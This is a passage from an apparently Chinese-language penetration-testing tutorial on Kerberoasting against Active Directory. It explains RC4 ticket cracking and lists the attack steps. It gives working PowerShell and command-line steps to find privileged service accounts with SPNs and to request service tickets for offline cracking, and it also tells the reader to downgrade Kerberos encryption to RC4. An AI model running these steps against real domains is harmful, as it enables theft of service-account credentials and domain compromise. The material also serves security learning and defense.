 服务票据使用服务账户的 NTLM Hash 加密，不用获取运行该服务系统的 shell，任何域用户就可以转储 Hash

在 TGS-REP 过程中，TGS 收到请求后，会将 Client-To-Server Ticket（也称为 ST 票据，Client-To-Server Ticket 由Server 密钥加密）、sessionkey_tgs 返回给 Client。当配置 Kerberos 允许的加密类型是 RC4-HMAC_MD5 时，就可以爆破 Client 端获取的 Client-To-Server Ticket，从而获得服务端服务账户的密码。

破解 Kerberos 服务票据（Client-To-Server Ticket）并重写它们，从而获得目标服务的访问权限的过程叫做 Kerberoast。该过程不需要和目标服务进行交互操作，合法访问活动目录的活动，就可以请求服务票据并导出，进行脱机破解得到服务账户的明文密码。

Kerberoast 攻击涉及五个步骤：
- SPN 扫描
- 请求 Client-To-Server Ticket
- 导出 Client-To-Server Ticket
- 破解 Client-To-Server Ticket
- 重写 Client-To-Server Ticket, 进行内存注入

进行 Kerberoast 攻击时，需要注意以下几点因素：

- 目标 SPN 服务是注册在域用户账户(Users)下
- 域用户账户的权限很高
- 密码最后设置时间
- 密码到期时间
- 最后一次登录时间
    ```
    net user administrator /domain  可查看
    ```

攻击者最感兴趣的是具有高权限用户组的服务帐户如域管理员组的成员。要快速列出高权限用户组的服务帐户的方法是枚举“AdminCount” 属性等于“1”的所有帐户。攻击者只需要向 AD 请求具有 SPN 且 AdminCount = 1 的所有用户帐户。

使用 Active Directory powershell 模块（域控制器一般会安装）中的 Get-ADUser cmdlet：
```powershell
import-module ActiveDirectory
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon
```

对于没有安装的系统，可以通过以下命令导入 Active Directory 模块:
```powershell
import-module .\Microsoft.ActiveDirectory.Management.dll
```

Microsoft.ActiveDirectory.Management.dll在安装powershell模块Active Directory后会生成，直接在域控上环境就能扣出来

使用 gpedit.msc 将域控上的组策略管理编辑器打开,`计算机配置-->Windows设置-->安全设置-->安全选项-->"网络安全: 配置 Kerberos 允许的加密类型"`，配置 Kerberos 的加密类型为 RC4，并运行 gpupdate 更新策略

- https://github.com/nidem/kerberoast

使用 Kerberoast 中的 GeUserSPNs 进行扫描：
```
setspn.exe -q */*
或
cscript GetUserSPNs.vbs
```

请求指定的 ST 票据:
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
```
